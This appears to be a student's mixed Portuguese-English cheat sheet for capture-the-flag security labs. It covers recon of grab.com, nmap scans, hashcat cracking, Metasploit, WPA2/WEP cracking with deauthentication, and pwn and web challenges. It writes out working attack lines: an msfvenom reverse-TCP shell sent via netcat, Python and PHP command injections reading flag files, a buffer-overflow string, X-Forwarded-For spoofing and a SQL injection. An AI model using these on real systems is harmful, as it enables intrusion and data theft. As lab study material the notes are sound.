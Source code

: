 #1 - LAB
##Reconnaissance
###Target: grab.com
###1)
**email providers:** ```% dig MX grab.com```

**DNS txt records:** ```% dig TXT grab.com```

**is email provider correctly configured:** [https://toolbox.googleapps.com/apps/checkmx/]()

###2)

**passive subdomain enumeration:** 

```
% subfinder -d grab.com > subs.txt
% assetfinder grab.com > subs1.txt
% cat subs.txt subs1.txt | sort -u > unique.txt
```
###3)

**Track the location of all IP addresses on the obtained route:** ```% traceroute admiral.grab.com```

**location de cada ip dado no traceroute**: https://www.ip-tracker.org

###4)
**Find active http and https services:** ```% cat unique.txt | httprobe > urls.txt```

###5)
```
% nuclei -u https://aries.grab.com > scanningaries.txt
% nuclei -list urls.txt > scanning.txt
```

##Network scanning
###Asset: receipt.grab.com
###1)Banner grabbing: use nc, telnet, curl -v (for HTTP/HTTPS)
```% curl -v receipt.grab.com```
###2)Ping scan do endereço 192.168.196.50:
```% nmap -sn 192.168.196.50```

**Scanning agressivo:** ```% nmap -A 192.168.196.50 > ex2.2.txt```

**Scanning entre as 1 a 1000:** ```% nmap -T4 -p 1-1000 192.168.196.50```

**List scan:** ```% nmap -sL 192.168.196.50```

###3) wireshark para capturar network packets usar: 
```ip.addr == X.X.X.X``` para filtrar

###4) secret service
```% nmap -T4 -p 5000-7000 192.168.196.50```

##Password cracking and exploitation
###1) Hashcat 
```% hashcat -a 3 -m 1711  {SSHA512}FhFw5Pfw6kQEiSP4+tSkew5kdRzCdtqGaybFFRsPH1OA1oUYqkLdDSg6WzfRCoL3FN1pXyGq9OlE+1iYCUI0uFsG9FNFwls3  -1 "?l?d"  "?1?1?1?1?1?1"```
```
% hashcat -a 3 -m 1711 {SSHA512}FhFw5Pfw6kQEiSP4+tSkew5kdRzCdtqGaybFFRsPH1OA1oUYqkLdDSg6WzfRCoL3FN1pXyGq9OlE+1iYCUI0uFsG9FNFwls3 -1 "?l?d" -o cracked.txt  "?1?1?1?1?1?1"
```
###2) Metasploit 
```
% msfconsole
```
```
msf % search ...
msf % use ...
msf % show options ...
msf % set RHOST 192.168.196.50
msf % set RPORT ...
msf % set LHOST 192.168.196.70 (vpn-zt6ov2vlpl)
 
msf % run
cat /flag.txt
```



##WiFi Security

```% ifconfig``` para saber o nome da WiFi interface

descarregar a wordlist para depois testar as passes

###WPA2) 

```%airmon-ng check kill```

Enable monitor mode on your network interface: 
```
% airmon-ng start wlp2s0
```

Retrieve the target BSSID and channel with ```% airodump-ng wlp2s0```

Capture a 4-way handshake with the command (you need to change BSSID and CHANNEL): ```% airodump-ng -c 1 --bssid xx:xx:xx:xx:xx:xx -w captureName.cap wlp2s0```

While we wait for a handshake, we can use aireplay to force clients to reconnect to the AP (deauth) with: ```% aireplay-ng --deauth 5 -a xx:xx:xx:xx:xx:xx -c xx:xx:xx:xx:xx:xx wlp2s0```. 

Convert to hashcat format: ```% cap2hccapx captureName.cap captureName.hccapx```

Run hashcat: ```% hashcat -m 2500 captureName.hccapx wordlist.txt```

ou ```aircrack-ng -w wordlist.txt captureName.cap```

###WEP)

```%airmon-ng check kill```

Enable monitor mode on your network interface: ```% airmon-ng start wlp2s0 ```

Run airodump-ng or Wireshark to capture packets:
Retrieve the target BSSID and channel with ```% airodump-ng wlp2s0```

Capture a 4-way handshake with the command (you need to change BSSID and CHANNEL): ```% airodump-ng -c 1 --bssid xx:xx:xx:xx:xx:xx -w captureName.cap wlp2s0```

Use aircrack-ng to crack the key ```% aircrack-ng -1 -a 1 -b xx:xx:xx:xx:xx:xx captureName.cap``` after retrieving enough IVs

---

#2 - MALWARE
ver com `file ...` se estas non stripped se estiver ver com o detect it easy como é que está comprimido

descomprimir com upx -d , depois fazer reverse

---

#3 - REVERSE
Experimentar 

```
python3 -m venv angr
source angr/bin/activate
pip3 install angr
```

1. get win fun addr
2. get base addr 

script no help.py do system em reverse

Fazer funções em python para descobrirem por mim...

---

#4 - PWN -ver ltrace ou strace
fazer `chmod +x filename`

fazer `file ...`

e `checksec --file ...`

no caso da injection deu:

```
arch: i386-32-little 
relro: partial relro 
stack: canary found 
nx: nx enabled 
pie: no pie (0x400000)
```
No caso do ret2win

```
arch: i386-32-little 
relro: partial relro 
stack: no canary found 
nx: nx enabled 
pie: no pie (0x8048000)
```

##MOO - Python
ver que a consola responde a mensagens diferentes de numeros para letras.
dá erro que name 'a' is not defined 

```
% nc 192.168.196.50 5005
% print(__import__('os').system('cat flag.txt'))
```


##Injection
meter a pass que se vê no ghidra depois fazer overflow do buffer que era de 16 bytes e meter o codigo de shell que se quer fazer, neste caso:
`12345678AAAAAAAAcat flag.txt`

##Secure yara runner
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.196.<nr> LPORT=9001 -f elf > shell-x86.elf
nc -lvnp 9001
base64 -w 0 shell-x86.elf > b64_binary.txt
cat <(cat b64_binary.txt) - | nc 192.168.196.50 5002

##Ret2win
correr aquele example.py

para saber qual o address da função win, correr:

`dbg-pwndbg`->
`file ret2win`->`info functions` 
ver o address do win

para saber o numero de A's precisos para fazer o segmentation fault correr:

`dbg-pwndbg`-> `cyclic 200` -> `run`-> dar a string que me deu no cyclic 200 -> acontece segmentation fault -> fazer `cyclic -l daab` sendo daab a parte que deu origem ao invalid address -> o numero de A's é o numero que me deu.



##Easy canary

##Ghost In The Shell

---

#5 - WEB
##Bug Bounty
```dirsearch -u 192.168.196.50:6001``` 

##The Client Side
cat o documento e ver o código html

##IP Service
Usar dirsearch para descobrir que diretórios existem -> `/backups`
voltar a fazer esta pesquisa mas agr com o path .../backups/
Fizer download do backup.zip e o index.php mudar com o --hearder o ip proxy? que estamos a usar
 `curl --header 'X-Forwarded-For: 137.137.137.137' http://192.168.196.50:6004/`

###Fazer com o burp
Usar dirsearch para ver o php...
Abrir o que quero com o firefox
No proxy, fazer interception on e refresh da página do firefox 
depois ir a repeater e adicionar `X-Forwarded-For: 137.137.137.137`,
meter send e ver em baixo




slides do prof:

```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```


##Hello - php
Valor não ascii no final para crashar a função: 
`192.168.196.50:6003/?name=<?php system('cat /flag.txt');?>%8A`
##The Speech

##NDA Service



`xxd secret.txt | head`
para ver os primeiros bytes do ficheiro e percebr qual é a signature do sistema

sql injection
'OR 1=1 --